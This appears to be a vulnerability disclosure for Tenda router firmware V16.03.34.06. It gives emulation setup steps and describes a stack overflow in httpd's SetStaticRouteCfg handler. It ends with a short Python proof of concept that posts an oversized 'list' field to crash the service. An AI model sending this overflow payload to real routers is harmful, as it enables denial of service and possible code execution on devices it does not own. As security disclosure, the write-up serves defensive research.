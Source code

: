 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

tdhttpd in directory /bin has stack overflow vulnerability. The vulnerability occurrs in the function, which can be accessed via the URL .`fromSetRouteStatic goform/SetStaticRouteCfg`

[![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/2_tenda-ac8_image.png)](https://github.com/Raining-101/IOT_cve/blob/a7697c82331c99189be61d7b19f54cddc00365d5/image/1_tenda-ac8_image.png)

Stack overflow point：

![image](https://github.com/Raining-101/IOT_cve/blob/326b7c464ac9bdadf22b3eb19b48fd54df416bde/image/2_tenda-ac8_image.png)
As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

### PoC

```text-plain
import requests

data = {
    b"list": b'Raining'*0x400+b',R,R,R'
}
res = requests.post("http://192.168.142.100/goform/SetStaticRouteCfg", data=data)
print(res.content)
```

![image](https://github.com/Raining-101/IOT_cve/blob/23e96bdb4dae3997d1c5555a8011196e5e357ac1/image/3_tenda-ac8_image.png)
